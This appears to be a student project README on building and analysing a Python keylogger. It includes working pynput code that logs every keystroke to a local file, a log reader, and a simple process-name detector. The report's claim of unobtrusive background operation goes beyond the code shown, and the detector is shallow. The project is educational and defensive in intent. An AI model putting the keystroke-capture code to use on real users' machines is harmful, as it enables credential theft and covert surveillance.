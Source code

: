 # Development and Analysis of a Keylogger using Python
<p align="center">
  <img src="assets/NIELIT_logo.jpg" alt="NIELIT Logo" width="200"/>
</p>
## Executive Summary
A Python-based keylogger was developed and analyzed to understand its functionality, potential misuse, and defense strategies in cybersecurity. 
The project highlights both the technical aspects of creating such tools and the ethical implications of their usage. 
By studying keylogger behavior, the project emphasizes the importance of awareness, detection, and mitigation strategies to strengthen system security.

## Abstract
This project focuses on the development and analysis of a simple keylogger application using Python for educational and research purposes in cybersecurity. 
The implementation begins with utilizing Python libraries such as `pynput` to capture keyboard events in real time. 
The captured keystrokes are stored in a log file, allowing the monitoring of user input for analysis.

The project explores techniques for running the keylogger in the background, ensuring it operates unobtrusively without interrupting normal system usage. 
Additional functionality, such as time-stamping keystrokes and custom log file storage paths, is also implemented to enhance usability.

On the analytical side, the project examines the potential security implications of keyloggers, including their use in both ethical research and malicious attacks. 
It highlights countermeasures such as antivirus detection, system monitoring tools, and user awareness programs to mitigate risks.

Overall, this project serves as a practical demonstration of how keyloggers function while also emphasizing ethical considerations, 
defensive strategies, and the importance of understanding such tools in the field of cybersecurity.

---

## Introduction
The rise of cyber threats has made cybersecurity an essential discipline in the digital age. 
Among the numerous tools used by attackers, keyloggers remain one of the most effective means of compromising sensitive information. 
A keylogger records keystrokes typed on a keyboard and may be used for malicious purposes such as stealing credentials, financial information, or confidential data. 

However, studying keyloggers is equally important in ethical hacking and cybersecurity education to understand how attackers operate and how to defend against such threats. 
This project introduces the design and implementation of a simple keylogger using Python, providing insights into its development, operation, and associated risks.

---

## Methodology
The methodology for this project involved the following steps:

1. **Environment Setup**: Python environment was prepared with required libraries such as `pynput`.
2. **Implementation of Keylogger**: A script was developed to capture keystrokes in real time and store them in a log file.
3. **Enhancements**: Features such as time-stamping and background execution were added.
4. **Testing**: The script was tested on a controlled environment to validate its accuracy and efficiency.
5. **Analysis**: The behavior of the keylogger was studied to identify potential risks and countermeasures.

This approach ensured that the project remained within ethical and educational boundaries, avoiding misuse while demonstrating practical functionality.

---

## Code Implementation

### 🔹 `demo_keylogger.py`
```python
from pynput import keyboard
import logging
from datetime import datetime

# Log file configuration
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### 🔹 `log_analyzer.py`
```python
# Reads log file and prints analysis
def analyze_logs(log_file="key_log.txt"):
    try:
        with open(log_file, "r") as f:
            lines = f.readlines()
            print(f"Total keystrokes recorded: {len(lines)}")
            print("Sample log entries:")
            print("".join(lines[:10]))
    except FileNotFoundError:
        print("Log file not found.")

if __name__ == "__main__":
    analyze_logs()
```

### 🔹 `detector.py`
```python
import psutil

# Detect if 'python' process is running keylogger
def detect_keylogger():
    suspicious = []
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            if "python" in proc.info['name'].lower() and "keylogger" in " ".join(proc.info['cmdline']).lower():
                suspicious.append(proc.info)
        except Exception:
            pass
    if suspicious:
        print("⚠️ Potential Keylogger Detected:", suspicious)
    else:
        print("✅ No keylogger detected.")

if __name__ == "__main__":
    detect_keylogger()
```

---

## Results and Analysis
The developed Python keylogger successfully captured keystrokes and stored them in a designated log file. 
The tool was able to operate in the background without disrupting normal system operations.

Key Observations:
- The keylogger reliably recorded user inputs including letters, numbers, and special characters.
- Time-stamping provided contextual information useful for forensic analysis.
- Running in the background made it unobtrusive and difficult to detect for an untrained user.

The project confirmed the potential dangers of keyloggers when misused, including identity theft, data breaches, and unauthorized surveillance. 
It emphasized the importance of employing defensive measures such as updated antivirus software, intrusion detection systems, and strong user awareness programs.

---

## Conclusion
This project successfully demonstrated the development and operation of a keylogger using Python. 
It provided insights into how such tools function, their potential malicious use, and the ethical importance of studying them in the context of cybersecurity. 

Future work could involve extending the project to analyze detection techniques using machine learning and exploring more advanced countermeasures. 
Ultimately, this project underscores the balance between offensive cybersecurity research and defensive application in real-world scenarios.

---

## References
1. Alazab, M. (2015). Malware detection and mitigation in computer networks: Keyloggers and spyware. IEEE Communications Surveys & Tutorials.
2. Python Software Foundation. (2023). Python Documentation. Available at: https://docs.python.org
3. Pynput Library Documentation. (2023). Available at: https://pynput.readthedocs.io/
4. Stallings, W. (2018). Computer Security: Principles and Practice. Pearson.
5. SANS Institute. (2022). Keylogger Threats and Defensive Strategies. Available at: https://www.sans.org/
